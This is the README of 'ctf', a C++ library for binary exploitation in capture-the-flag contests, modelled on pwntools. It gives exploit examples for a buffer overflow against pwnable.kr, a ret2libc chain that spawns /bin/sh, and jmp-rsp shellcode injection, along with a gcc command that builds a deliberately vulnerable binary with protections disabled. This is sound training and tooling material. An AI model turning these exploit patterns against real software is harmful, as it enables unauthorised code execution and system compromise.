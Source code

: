 # ctf

A C++ pwnlib-like library for binary exploitation.

It's not as developed as pwnlib, but it's a start.

## Examples

buffer overflow:
```cpp
#include <ctf/ctf.hpp>
#include <exception>
#include <iostream>
#include <memory>
#include <string_view>

using namespace ctf;

constexpr uint16_t PORT   = 9000;
constexpr uint32_t OFFSET = 0x6161616e;
constexpr uint32_t PASS   = 0xcafebabe;

int main(int argc, char **argv) try {
    auto local = argc > 1 && std::string_view(argv[1]) == "local";

    std::string payload;
    payload += cyclic(cyclic_find(OFFSET));
    payload += p<uint32_t>(PASS);

    using UniqTube = std::unique_ptr<Tube>;

    UniqTube io =
        local ? UniqTube(new Process("./bin/bof")) // the code from pwnable
              : UniqTube(new Remote("pwnable.kr", PORT));

    io->writeln(payload);
    io->interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

ret2libc:
```cpp
#include <cstdint>
#include <ctf/ctf.hpp>
#include <iostream>

using namespace ctf;

// rip at 0x62616162
constexpr uint32_t RIP = 0x62616162;

int main() try {
    auto elf      = ELF("./bin/vuln");
    auto libc     = ELF("/lib/x86_64-linux-gnu/libc.so.6");
    auto puts_plt = elf.plt()["puts"];
    auto puts_got = elf.got()["puts"];
    auto main_sym = elf.symbols()["main"];
    auto rop      = ROP("./bin/vuln");
    auto pop_rdi  = rop.find_gadget({"pop rdi", "ret"}).at(0);
    auto ret      = rop.find_gadget({"ret"}).at(0);

    auto payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(puts_got),
        p<uint64_t>(ret),
        p<uint64_t>(puts_plt),
        p<uint64_t>(main_sym)
    );
    auto proc = Process("./bin/vuln");
    proc.writeln(payload);
    std::cout << proc.readln() << std::endl;

    auto leak_str = proc.readln();
    hex_println(leak_str);
    auto leak = up<uint64_t>(leak_str);
    std::cout << "0x" << std::hex << leak << std::endl;

    libc.set_address(leak - libc.symbols()["puts"]);
    auto system_sym = libc.symbols()["system"];
    auto bin_sh     = libc.strings()["/bin/sh"];
    auto exit_sym   = libc.symbols()["exit"];

    auto new_payload = from_ranges(
        cyclic(cyclic_find(RIP)),
        p<uint64_t>(pop_rdi),
        p<uint64_t>(bin_sh),
        p<uint64_t>(system_sym),
        p<uint64_t>(exit_sym)
    );
    proc.writeln(new_payload);
    proc.interactive();
} catch (const std::exception &e) {
    std::cerr << e.what() << std::endl;
}
```

shellcode injection:
```cpp
#include <ctf/ctf.hpp>
#include <exception>
#include <iostream>
#include <string_view>

using namespace ctf;

// rip clobber at 0x61676161
constexpr uint32_t RIP = 0x62616162;

int main(int argc, char **argv) try {
    auto use_gdb   = argc > 1 && std::string_view(argv[1]) == "use_gdb";
    auto elf       = ELF("./bin/vuln");
    auto jmp_rsp   = elf.search({"jmp rsp"}).at(0);
    auto offset    = cyclic_find(RIP);
    auto shellcode = linux_sh_x64();

    std::string payload;
    payload += cyclic(offset);
    payload += p<uint64_t>(jmp_rsp);
    payload += shellcode;

    auto vuln = "./bin/vuln";
    auto proc = use_gdb ? Gdb::debug(vuln, "b main\nc\n") : Process(vuln);
    proc.writeln(payload);
    proc.interactive();
} catch (const std::exception &ec) {
    std::cerr << ec.what() << std::endl;
}
```

## Dependencies
- asio
- subprocess.h
- magic-enum
- fmtlib
- LIEF
- capstone
- keystone
- googletest (for tests)

The CMake script uses FetchContent to grab the dependencies and build them. I haven't had the chance to automate things via vcpkg or conan mainly due to missing dependencies there (LIEF and Keystone).
The dependencies are private to ctf and their headers are not exposed to the developer.

## Requirements
C++20 compiler. CMake > 3.18.

## Building
```bash
git clone https://github.com/MoAlyousef/ctf
cd ctf
# configure
cmake -Bbin -GNinja
# build
cmake --build bin
```

By default this builds a shared library libctf, this provides better link times.
To disable this, use `-DCTF_BUILD_SHARED=OFF` in the configure step.

The default configure step will not build the examples nor the tests. To build those, use `-DCTF_BUILD_EXAMPLES=ON` and `-DCTF_BUIILD_TESTS=ON`.

A vulnerable source code in `examples/vuln.c` is used for the examples. Its not built by CMake. If you would like to build it you can use `gcc -o bin/vuln examples/vuln.c -zexecstack -fno-stack-protector -no-pie -D_FORTIFY_SOURCE=0`.

You can use CMake's FetchContent to incorporate ctf into your project:
```cmake
include(FetchContent)
FetchContent_Declare(
  ctf
  GIT_REPOSITORY https://github.com/MoAlyousef/ctf
  GIT_SHALLOW    True
)
FetchContent_MakeAvailable(ctf)
```

Otherwise, you can build the project and use the generated ctf shared library and the public headers in `include/ctf`.
